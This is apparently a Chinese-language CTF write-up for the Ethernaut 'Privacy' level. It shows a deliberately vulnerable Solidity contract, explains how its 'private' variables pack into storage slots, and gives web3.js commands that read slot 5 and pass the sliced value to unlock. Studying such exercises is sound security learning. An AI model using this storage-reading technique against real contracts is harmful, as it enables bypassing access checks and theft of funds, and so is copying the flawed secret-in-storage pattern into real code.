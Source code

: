 # Privacy


## 代码
```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```


## 分析
还是和[9-Vault.md](./9-Vault.md)一样，链上无隐私。同时在[7-Delegation](./7-Delegation.md) 上也了解到了storage的layout。

需要注意的，solidity也会自动对齐。不足32个字节的，同类型的应该都会自动对齐。
因此:
bool public locked = true; -> `slot0`
uint256 public ID = block.timestamp; -> `slot1`
uint8 private flattening = 10; -> `slot2`
uint8 private denomination = 255; -> `slot2`
uint16 private awkwardness = uint16 (block.timestamp);-> `slot2`
bytes32[3] private data;

data[0]->-> `slot3`
data[1]->-> `slot4`
data[2]->-> `slot5`


因此通过读取slot=5的就可以读取到具体的值。
## pwn
不会写solidity代码，因为现在还不会solidity的会变。只能用web3js来做。

```js
await web3.eth.getStorageAt(contract.address,5)
'0x3236b54662ad442b905dc803044cf42e5ed4a49b57585810ff9eb9bd46e6707f'
```

这是32字节的，但是需要的参数是bytes16，16个字节的。

```
 await web3.eth.getStorageAt(contract.address,5).then(v=>v.slice(0,34))
'0x3236b54662ad442b905dc803044cf42e'
```
从0-34的原因，是web3返回的时候，默认给加了个`0x`，所以多了2个字节。

最后`await contract.unlock("0x3236b54662ad442b905dc803044cf42e")` 就通过了。





## ref
[How to read Ethereum contract storage](https://medium.com/@dariusdev/how-to-read-ethereum-contract-storage-44252c8af925)
